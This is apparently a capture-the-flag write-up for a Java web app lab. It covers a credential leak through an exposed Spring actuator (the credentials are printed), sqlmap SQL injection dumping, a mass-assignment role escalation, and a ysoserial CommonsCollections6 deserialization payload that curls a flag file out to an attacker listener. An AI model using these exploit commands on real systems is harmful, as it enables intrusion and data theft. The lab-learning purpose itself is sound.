










# Flag-1
Analyzing the source code I found that <br/>
`management.endpoints.web.exposure.include=*` <br/>
 <br/>
So I visited `/actuator/env`. It reveals the username and password for initial access. `kiosk:Sh1ftK10sk#2091` <br/>
 <br/>
Using the credential I logged in and got the flag. <br/>
# Flag-2 <br/>
`/inmates/search?q=` is vulnerable to SQLI according to the code. <br/>
 <br/>
Using sqlmap I dump the database and got the flag.
```bash
sqlmap -r sqli.txt --level=5 --risk=3 -D PUBLIC --dump --threads=10
```
 <br/>
# Flag-3
From the source I have found that `/profile/update` has mass assignment vulnerability. So I made a request to the url `/profile/update` and add this `&role=WARDEN` in the body parameter. Now visiting the admin page I got the flag. <br/>
 <br/>
 <br/>
# Flag-4: The Final Flag 
From `pom.xml` I have found that It uses common-collections 3.2, 3.2.2 which has java deserialization vulnerability. <br/>
 <br/>
And the vulnerable endpoint is `/admin/import`. It uses `ols.readObject()`.  <br/>
 <br/>
At first I found out the location of the flag.txt, then I have used the following command to get the flag.
```bash
# Run:
nc -nvlp 9000

# On another tab run the following:
## Finding the flag location: after running this run the third command. And change /opt --> /opt/ironhold
docker run --rm ilyaglow/ysoserial CommonsCollections6 'bash -c {ls,-la,/opt}|{tee,/tmp/out.txt}&&{curl,--data-binary,@/tmp/out.txt,http://<machine_ip>:9000}' | base64 -w0 > test.b64

# The final payload
docker run --rm ilyaglow/ysoserial CommonsCollections6 'bash -c {cat,/opt/ironhold/flag.txt}|{tee,/tmp/out.txt}&&{curl,--data-binary,@/tmp/out.txt,http://<attacker_ip>:9000}' | base64 -w0 > test.b64

# Then run:
curl -s -b "<warden_cookie>" -H "Content-Type: text/plain" <machine_ip>:8080/admin/import --data-binary @test.b64
```
 <br/>
Lastly the flag.  <br/>
 <br/>

